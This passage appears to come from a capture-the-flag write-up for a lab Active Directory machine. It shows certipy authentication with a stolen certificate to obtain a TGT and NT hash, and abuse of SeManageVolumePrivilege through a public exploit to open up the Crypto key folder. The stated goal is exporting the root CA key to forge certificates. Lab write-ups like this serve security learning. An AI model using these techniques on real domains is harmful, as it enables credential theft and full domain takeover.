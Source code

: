 We have a certificate for ryan, so let's auth, not forgetting the clock skew.

```bash
faketime -f +8hr $HOME/.local/bin/certipy auth -pfx ryan.k.pfx  -dc-ip 10.10.11.71
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ryan.k@certificate.htb'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
File 'ryan.k.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:<redacted>
```

That works! So we can login with kerberos or the hash, I'll use the hash for simplicity. Then we can see what permissions this fella might have.

```powershell
whoami /priv
```

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled

```

`SeManageVolumePrivilege`
This is apparently an exploitable privilege, that I had never known about. A simple [exe](https://github.com/CsEnox/SeManageVolumeExploit) can be ran that actually grants full permissions for most of the drive and potentially shell acess. How it's hardcoded just goes through replacing Admin SIDS with the Users SID, which we can see in the icacls output.
However, there's something else that might be of interest since we're on the DC and there's no other pivot points here, there's going to be the root certificate on the machine. So if we run `certutil -store My` we would be querying the Cryptographic Service Provider or CSP for the private key, it obviously knows where the private keys are but unless we have read access we can't export them. But perhaps this the SeManageVolumeExploit will let us export the Root-CA and with that, we would be able to do whatever we want, since we could forge certificates, create templates, anything we want, it's a Golden Certificate.


```powershell
icacls C:\Programdata\Microsoft\Crypto\RSA
# C:\Programdata\Microsoft\Crypto\RSA NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
#                                     BUILTIN\Administrators:(I)(OI)(CI)(F)
#                                     BUILTIN\Pre-Windows 2000 Compatible Access:(I)(OI)(CI)(RX)
#                                     Everyone:(I)(OI)(CI)(RX)

#Successfully processed 1 files; Failed processing 0 files
 .\Semanage*
#Entries changed: 856
#
#DONE
#
icacls C:\Programdata\Microsoft\Crypto\RSA
```
